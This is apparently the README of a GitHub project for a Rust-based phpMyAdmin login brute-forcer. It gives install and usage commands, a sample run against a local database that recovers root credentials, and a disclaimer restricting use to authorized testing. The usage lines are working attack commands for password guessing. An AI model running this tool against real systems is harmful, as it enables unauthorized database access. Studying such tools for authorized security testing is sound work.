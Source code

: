 ﻿# phpmyadmin_bruteforce

## Rust installation 

1. On windows and linux:

```
https://www.rust-lang.org/tools/install
```

2. Once Rust is installed

```
git clone https://github.com/lemercierT/phpmyadmin_bruteforce.git
cd phpmyadmin_bruteforce/pma_bruteforcer/target/debug/
```

3. Example usage
```
[Usage]
.\pma_login_bruteforcer.exe --url http://xxxx/phpmyadmin
                            --pma_username xxxx
                            --wordlist Your/wordlist/path
                            --threads 0-125 (recommended)
``` 

4. For the test I used it against my local database.

For the test I changed my local database password to "IamASecureKey123@!" at the 4959 place of the passlist.txt wordlist.

In less than 30s we obtained :
```
$ ./pma_login_bruteforcer.exe --url http://127.0.0.1/phpmyadmin --pma_username root --wordlist ../../passlist.txt --threads 100
[+] Found creds root:IamASecureKey123@!
```

## Disclaimer
The phpmyadmin_bruteforce tool is intended solely for educational purposes and authorized security testing. The use of this software to attempt unauthorized access to any systems, networks, or data without the explicit consent of the system owner is illegal and may result in severe civil and/or criminal penalties.

The author of this tool, including contributors and any affiliated parties, assumes no responsibility for any misuse or damages caused by the use of this tool. By using this tool, you agree to only use it in compliance with all applicable local, national, and international laws.

Always ensure that you have explicit permission from the owner before testing any system's security.

Use responsibly.


